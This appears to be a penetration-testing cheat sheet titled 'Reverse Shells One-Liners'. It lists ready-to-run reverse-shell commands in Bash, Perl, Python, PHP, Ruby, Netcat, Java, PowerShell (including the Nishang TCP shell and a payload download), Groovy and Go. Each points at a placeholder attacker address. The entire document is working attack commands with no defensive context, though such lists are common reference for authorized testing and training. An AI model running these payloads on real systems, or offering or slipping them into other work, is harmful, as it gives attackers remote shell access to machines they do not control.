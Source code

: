 ```yaml
---
description: Common reverse shells
---
```


# Reverse Shells One-Liners

### Bash 

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` 

### Perl 

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` 

### URL-Encoded Perl: Linux 

`echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew` 

### Perl \(Windows\): 

`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` 

`perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` 

### Python 

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` 

### Python v6

`python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'`

### PHP 

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` 

### Ruby 

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'` 

### Netcat 

`nc -e /bin/sh ATTACKING-IP 80`   
`/bin/sh | nc ATTACKING-IP 80`   
`rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p` 

### Netcat without -e \#1 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f` 

### Netcat without -e \#2 

`nc localhost 443 | /bin/sh | nc localhost 444`   
or   
`telnet localhost 443 | /bin/sh | telnet localhost 444` 

### Java 

`r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[]); p.waitFor();` 

### Xterm 

`xterm -display 10.0.0.1:1` 

### Java Debug Wire Protocol \(JDWP\) RCE 

\``print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())` 

### PowerShell 

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"` 

### Nishang

`$callback = New-Object System.Net.Sockets.TCPClient("192.168.117.134",443);$stream = $callback.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$callback.Close()`

### Jenkis Server 

`println "cmd /c whoami".execute().text` 

### Golang

`echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go`

